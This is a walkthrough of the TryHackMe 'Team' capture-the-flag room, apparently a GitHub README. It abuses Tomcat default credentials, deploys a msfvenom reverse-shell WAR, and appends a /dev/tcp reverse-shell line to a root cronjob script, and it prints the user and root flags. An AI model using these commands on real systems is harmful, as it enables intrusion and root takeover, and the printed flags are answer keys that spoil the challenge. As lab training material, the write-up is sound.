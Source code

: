 # Team CTF - TryHackMe Room
# **!! SPOILERS !!**
#### This repository documents my walkthrough for the **Team** CTF challenge on [TryHackMe](https://tryhackme.com/r/room/bsidesgtthompson). 
---
Using nmap to find open ports

![nmap](imgs/nmap.png "nmap")

Open ports: `22 ssh`, `8080 http` and `8009 ajp13`

Default Apache Tomcat webpage:

![webpage](imgs/webpage.png "webpage")

Using gobuster to enumerate hidden directories

```
gobuster dir -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -u http://10.10.99.7:8080

```

![gobuster](imgs/gobuster.png "gobuster")

Found `/manager` but its protected by login form

![login](imgs/login.png "login")

Deafult credentials doesn't seem to work, but cancelling reveals more info

![cancel](imgs/cancel.png "cancel")

Now trying other default credentials suggested by the site, `tomcat`:`s3cret`, and it works

We can see admin panel

![manager](imgs/manager.png "manager")

We are able to submit `.war` files, so i will create a payload that executes reverse shell using `msfvenom`

```
msfvenom -p java/jsp_shell_reverse_tcp LPORT=9999 LHOST=<ATTACKER IP> -f war -o shell.war  
```

![npayload](imgs/npayload.png "npayload")

Now i upload `shell.war`, start nc listener and go to `http://IP:8080/shell`

![shell](imgs/shell.png "shell")

![user](imgs/user.png "user")

> [!IMPORTANT]
> User flag from `user.txt`: `39400c90bc683a41a8935e4719f181bf`

Now checking `id.sh`, the script is run as cronjob so it is our privilage escalation factor

![cron](imgs/cron.png "cron")

Using simple command to add another line in id.sh to generate another reverse shell this time as root

```
echo "sh -i >& /dev/tcp/<ATTACKER IP>/4444 0>&1" >> id.sh
```
![nid](imgs/nid.png "nid")

Now we need to wait for script to execute

![root](imgs/root.png "root")

> [!IMPORTANT]
> Root flag from `root.txt`: `d89d5391984c0450a95497153ae7ca3a`

# MACHINE PWNED
